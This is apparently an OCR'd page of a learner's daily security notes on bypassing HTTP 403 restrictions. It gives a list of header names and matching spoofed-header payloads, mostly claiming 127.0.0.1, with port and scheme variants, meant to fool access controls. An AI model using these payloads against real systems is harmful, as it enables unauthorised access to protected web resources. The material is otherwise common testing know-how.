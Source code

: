 Daily Notes : Day 27 
403 Bypass (Part 1)

1: bypass by fuzz or brute force
2: bypass by header names

Base-Url
Client-IP
Http-Url
Proxy-Host
Proxy-Url
Real-Ip
Redirect
Referer
Referrer
Refferer
Request-Uri
Uri
Url
X-Client-IP
X-Custom-IP-Authorization
X-Forward-For
X-Forwarded-By
X-Forwarded-For-Original
X-Forwarded-For
X-Forwarded-Host
X-Forwarded-Port
X-Forwarded-Port
X-Forwarded-Port
X-Forwarded-Port
X-Forwarded-Port
X-Forwarded-Scheme
X-Forwarded-Scheme
X-Forwarded-Server
X-Forwarded
X-Forwarder-For
X-Host
X-Http-Destinationurl
X-Http-Host-Override
X-Original-Remote-Addr
X-Original-Url
X-Originating-IP
X-Proxy-Url
X-Real-Ip
X-Remote-Addr
X-Remote-IP
X-Rewrite-Url
X-True-IP

3: bypass by header payloads

Base-Url: 127.0.0.1
Client-IP: 127.0.0.1
Http-Url: 127.0.0.1
Proxy-Host: 127.0.0.1
Proxy-Url: 127.0.0.1
Real-Ip: 127.0.0.1
Redirect: 127.0.0.1
Referer: 127.0.0.1
Referrer: 127.0.0.1
Refferer: 127.0.0.1
Request-Uri: 127.0.0.1
Uri: 127.0.0.1
Url: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Custom-IP-Authorization: 127.0.0.1
X-Forward-For: 127.0.0.1
X-Forwarded-By: 127.0.0.1
X-Forwarded-For-Original: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded-Host: 127.0.0.1
X-Forwarded-Port: 443
X-Forwarded-Port: 4443
X-Forwarded-Port: 80
X-Forwarded-Port: 8080
X-Forwarded-Port: 8443
X-Forwarded-Scheme: http
X-Forwarded-Scheme: https
X-Forwarded-Server: 127.0.0.1
X-Forwarded: 127.0.0.1
X-Forwarder-For: 127.0.0.1
X-Host: 127.0.0.1
X-Http-Destinationurl: 127.0.0.1
X-Http-Host-Override: 127.0.0.1
X-Original-Remote-Addr: 127.0.0.1
X-Original-Url: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Proxy-Url: 127.0.0.1
X-Real-Ip: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Rewrite-Url: 127.0.0.1
X-True-IP: 127.0.0.1